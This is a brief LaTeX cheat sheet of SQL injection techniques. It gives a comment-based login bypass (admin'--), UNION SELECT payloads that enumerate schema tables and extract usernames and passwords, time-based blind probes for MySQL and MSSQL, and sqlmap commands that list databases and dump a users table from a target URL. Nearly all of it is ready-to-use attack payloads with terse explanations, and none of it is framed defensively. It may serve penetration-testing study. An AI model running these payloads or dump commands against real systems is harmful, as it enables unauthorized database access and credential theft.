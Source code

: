 \documentclass[12pt, letterpaper]{article}
\begin{document}
\begin{itemize}
    \item \textbf{Simple Login Bypass}
        \begin{itemize}
            \item \textit{Example:} \texttt{SELECT * FROM users WHERE username='admin' AND password='...'}
            \item If we input the username as: \texttt{admin'--}
            \item The \texttt{--} turns everything after it into a comment, effectively bypassing the password check.
        \end{itemize}
    \item \textbf{Extracting Data with \texttt{UNION} (MySQL)}
        \begin{sloppypar}
            \begin{itemize}
                \item \texttt{'UNION SELECT <table\_name>,NULL FROM information\_schema.tables--}
                \item \texttt{'UNION SELECT <column\_name>,NULL FROM information\_schema.columns WHERE table\_name='users'--}
                \item \texttt{'UNION SELECT username,password FROM users--}
            \end{itemize}
        \end{sloppypar}
    \item \textbf{Time-Based Blind Detection}
        \begin{itemize}
            \item \texttt{'AND SLEEP(5)--} \textit{(MySQL)}
            \item \texttt{'; WAITFOR DELAY '0:0:5'--} \textit{(MSSQL)}
            \item If the response takes 5 seconds longer than normal, this injection is confirmed.
        \end{itemize}
    \item \textbf{SQLMap}
        \begin{itemize}
            \item \texttt{sqlmap -u 'https://target.com/page?id=1'}: auto-detect injection
            \item \texttt{sqlmap -u 'https://target.com/page?id=1' --dbs}: list databases
            \item \texttt{sqlmap -u 'https://target.com/page?id=1' -D dbname -T users --dump}: dump a table
        \end{itemize}
\end{itemize}
\end{document}
